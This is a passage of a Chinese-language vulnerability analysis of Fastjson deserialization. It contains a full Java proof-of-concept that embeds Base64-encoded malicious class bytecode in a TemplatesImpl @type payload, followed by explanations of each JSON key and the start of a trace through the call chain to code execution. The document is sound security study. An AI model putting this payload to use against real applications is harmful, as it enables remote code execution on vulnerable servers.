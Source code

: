 ```java
public class PoC {
    public static String readClass(String cls){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(cls)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encodeBase64String(bos.toByteArray());
    }

    public static void main(String args[]){
        try {
            ParserConfig config = new ParserConfig();
            final String fileSeparator = System.getProperty("file.separator");
            final String evilClassPath = System.getProperty("user.dir") + "\\src\\main\\java\\com\\Impl\\Test.class";
            String evilCode = readClass(evilClassPath);
            final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
            String text1 = "{\"@type\":\"" + NASTY_CLASS +
                    "\",\"_bytecodes\":[\""+evilCode+"\"],'_name':'a.b','_tfactory':{ },\"_outputProperties\":{ }," +
                    "\"_name\":\"a\",\"_version\":\"1.0\",\"allowedProtocols\":\"all\"}\n";
            System.out.println(text1);

            Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
            //Object obj = JSON.parse(text1, Feature.SupportNonPublicField);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

PoC中几个重要的Json键的含义：

- **@type**——指定的解析类，即com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl，Fastjson根据指定类去反序列化得到该类的实例，在默认情况下只会去反序列化public修饰的属性，在PoC中，_bytecodes和_name都是私有属性，所以想要反序列化这两个属性，需要在parseObject()时设置Feature.SupportNonPublicField；
- _bytecodes——是我们把恶意类的.class文件二进制格式进行Base64编码后得到的字符串；
- _outputProperties——漏洞利用链的关键会调用其参数的getOutputProperties()方法，进而导致命令执行；
- _tfactory:{}——在defineTransletClasses()时会调用getExternalExtensionsMap()，当为null时会报错，所以要对_tfactory设置；

### 分析

当解析到_outputProperties的内容时，看到前面的下划线被去掉了：

![https://cdn.nlark.com/yuque/0/2020/png/244880/1605496225500-6f241022-7139-4b84-b28a-b46b1de6a0d4.png#align=left&display=inline&height=529&margin=%5Bobject%20Object%5D&originHeight=529&originWidth=982&size=0&status=done&style=none&width=982](https://cdn.nlark.com/yuque/0/2020/png/244880/1605496225500-6f241022-7139-4b84-b28a-b46b1de6a0d4.png#align=left&display=inline&height=529&margin=%5Bobject%20Object%5D&originHeight=529&originWidth=982&size=0&status=done&style=none&width=982)

跟进该方法，发现会通过反射机制调用com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties()
